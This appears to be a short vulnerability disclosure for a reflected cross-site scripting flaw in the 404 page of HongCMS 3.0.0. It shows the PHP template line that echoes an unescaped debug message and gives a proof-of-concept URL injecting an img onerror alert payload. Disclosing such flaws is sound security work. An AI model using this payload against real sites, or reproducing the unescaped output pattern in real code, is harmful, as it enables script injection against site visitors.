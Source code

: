 ## There is a reflective XSS on the 404 page of the web site

Powered by Shiyan

##### Vulnerability analysis：

In the 404 error page, the wrong code was used, resulting in the existence of XSS vulnerability.

##### Loophole code：

`</style>`
`</head>`
`<body>`
	`<div id="container">`
		`<h1>404 Page Not Found</h1>`
		`<p><?php echo $debugmsg; ?></p>`
		`<p>您尝试访问的页面未找到!</p>`
	`</div>`
`</body>`
`</html>`



##### Reflected XSS PoC:

`http://127.0.0.1/hongcms_3.0.0_free/index.php/abou<img src=x onerror=alert('shiyan')>`

##### Vulnerability trigger screenshot：

![1](C:\Users\lizhonghua\Desktop\1.png)

Note: the vulnerability will be exploited by malicious users.